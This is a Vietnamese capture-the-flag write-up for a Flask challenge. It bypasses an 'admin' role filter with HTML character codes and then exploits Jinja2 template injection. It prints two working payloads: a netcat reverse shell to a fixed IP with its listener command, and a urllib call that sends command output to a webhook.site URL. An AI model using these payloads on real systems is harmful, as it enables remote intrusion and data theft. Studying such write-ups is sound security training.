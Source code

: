 Bài này sử dụng jwt để render và tạo cookie.Dựa vào source code đi kèm,ta thấy không thể nào bypass được jwt,cookie chỉ có thể do server tạo ra.<b>
Mà server check dựa vào role là user hay admin,ở phần register,nếu ta điền role là admin sẽ bị chặn :<br> 
<a>
```
if "admin" in json_data:
        return jsonify(message="Blocked!")
```
</a>
Ta thấy server check một cách lỏng lẻo,nên ta sẽ bypass bằng cách dùng Unicode.

| Ký tự | Mã Unicode | Ký tự | Mã Unicode |
|-------|------------|-------|------------|
| (space) | `&#32;` | `@` | `&#64;` |
| `!` | `&#33;` | `A` | `&#65;` |
| `"` | `&#34;` | `B` | `&#66;` |
| `#` | `&#35;` | `C` | `&#67;` |
| `$` | `&#36;` | `D` | `&#68;` |
| `%` | `&#37;` | `E` | `&#69;` |
| `&` | `&#38;` | `F` | `&#70;` |
| `'` | `&#39;` | `G` | `&#71;` |
| `(` | `&#40;` | `H` | `&#72;` |
| `)` | `&#41;` | `I` | `&#73;` |
| `*` | `&#42;` | `J` | `&#74;` |
| `+` | `&#43;` | `K` | `&#75;` |
| `,` | `&#44;` | `L` | `&#76;` |
| `-` | `&#45;` | `M` | `&#77;` |
| `.` | `&#46;` | `N` | `&#78;` |
| `/` | `&#47;` | `O` | `&#79;` |
| `0` | `&#48;` | `P` | `&#80;` |
| `1` | `&#49;` | `Q` | `&#81;` |
| `2` | `&#50;` | `R` | `&#82;` |
| `3` | `&#51;` | `S` | `&#83;` |
| `4` | `&#52;` | `T` | `&#84;` |
| `5` | `&#53;` | `U` | `&#85;` |
| `6` | `&#54;` | `V` | `&#86;` |
| `7` | `&#55;` | `W` | `&#87;` |
| `8` | `&#56;` | `X` | `&#88;` |
| `9` | `&#57;` | `Y` | `&#89;` |
| `:` | `&#58;` | `Z` | `&#90;` |
| `;` | `&#59;` | `[` | `&#91;` |
| `<` | `&#60;` | `\` | `&#92;` |
| `=` | `&#61;` | `]` | `&#93;` |
| `>` | `&#62;` | `^` | `&#94;` |
| `?` | `&#63;` | `_` | `&#95;` |
| ``` ` ``` | `&#96;` | ``` ` ``` | `&#96;` |
| `a` | `&#97;` | `n` | `&#110;` |
| `b` | `&#98;` | `o` | `&#111;` |
| `c` | `&#99;` | `p` | `&#112;` |
| `d` | `&#100;` | `q` | `&#113;` |
| `e` | `&#101;` | `r` | `&#114;` |
| `f` | `&#102;` | `s` | `&#115;` |
| `g` | `&#103;` | `t` | `&#116;` |
| `h` | `&#104;` | `u` | `&#117;` |
| `i` | `&#105;` | `v` | `&#118;` |
| `j` | `&#106;` | `w` | `&#119;` |
| `k` | `&#107;` | `x` | `&#120;` |
| `l` | `&#108;` | `y` | `&#121;` |
| `m` | `&#109;` | `z` | `&#122;` |
| `{` | `&#123;` | `\|` | `&#124;` |
| `}` | `&#125;` | `~` | `&#126;` |

Sau khi bypass được check role,ta sẽ khai thác SSTI để tạo revert shell tại <a>`rendered_template = render_template_string(template)`</a> <br>
Payload: 
<a>`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc 172.26.97.248 9999 -e /bin/bash').read() }}
`</a> <br>
Lắng nghe port 9999 : `nc -lvnp 9999` <br>
Cách 2: <br>
Payload: <br>
<a>
```
{
  "template": "{{ url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('https://webhook.site/0139531b-9559-42d0-a71a-b43e039822c2/?flag=' + url_for.__globals__['os'].popen('ls').read()) }}"
}
```
</a> 
Có : <br>
<p> url_for :  Đây là một hàm phổ biến trong Flask dùng để tạo ra URL cho một endpoint cụ thể. </p>
<p> __globals__ : Đây là một thuộc tính của các hàm trong Python, chứa các biến toàn cục có sẵn trong phạm vi hàm đó. Khi gọi url_for.__globals__, ta truy cập được toàn bộ không gian toàn cục của Flask,
bao gồm các hàm, biến và module. </p>
<p> ['__builtins__'] : Đây là một mục trong __globals__, chứa các hàm và biến dựng sẵn của Python. </p>
<p>Trong Python, module builtins chứa rất nhiều hàm dựng sẵn. Các hàm này có thể được sử dụng mà không cần import vì chúng được tích hợp sẵn trong môi trường Python. <br>
Dưới đây là danh sách các hàm phổ biến trong builtins: </p>
        Hàm nhập xuất: <br>
print() :In dữ liệu ra màn hình. <br>
input() : Lấy dữ liệu đầu vào từ người dùng. <br>
open()  : Mở file. <br>
Hàm đặc biệt cho import và unload module: <br>
__import__() :Cho phép import một module mới hoặc lấy lại module đã được import vào bộ nhớ. <br>
Cách dùng __import__('module_name') có thể thay thế cho câu lệnh import module_name. <br>
        
      
